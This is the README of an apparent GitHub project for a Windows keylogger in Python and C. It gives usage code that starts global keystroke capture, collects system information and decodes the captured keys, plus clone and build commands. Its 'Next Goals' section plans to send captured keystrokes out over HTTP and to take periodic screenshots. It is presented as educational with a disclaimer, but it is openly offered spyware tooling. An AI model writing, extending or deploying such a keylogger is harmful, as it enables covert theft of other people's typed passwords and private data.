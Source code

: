 # Keylogger

> ⚠️ **Warning:** This project is intended **for educational purposes only**.
> I am **not responsible** for any misuse of this code. Do **not use** it to capture data from others without permission.

---
<div align="center">
  <img width="512" height="512" alt="logo" src="https://github.com/user-attachments/assets/ab405688-7c34-477a-a03c-192df375d5e6" />
</div>

## Description

This is a simple Python/C example that demonstrates how to:

- Collect basic system information
- Capture global keyboard input
- Decode key presses into readable text

---

## Example Usage

```python
import time
import pcinfo
from keylogger import Keylogger

# Start keylogger
kl = Keylogger()
kl.start()

# Print system info
info = pcinfo.infoPc()
print("System Info:")
print(info)

# Type something...
time.sleep(10)

# Get keylogger buffer and decode to text
codes = kl.get_buffer()
text = "".join(chr(c) for c in codes)
print("Captured Keys:")
print(text)

# Stop keylogger
kl.stop()
del kl
```


## Next Goals
- **External Output:** Explore ways to send captured data to external sources:
  - Save to files
  - Send via HTTP requests
- **Data Analysis:** Process and analyze keystroke data
- **Snapshot:** Capture periodic screenshots for study purposes

## How to Compile and Run (Windows Only)

> ⚠️ **Note:** This project currently supports **Windows only**.
> Make sure you have **Python installed** and **Visual Studio Build Tools** available.

Clone the repository and navigate to the folder:

```bash
git clone https://github.com/jgmen/keylogger-py.git
cd keylogger-py
nmake build
nmake run
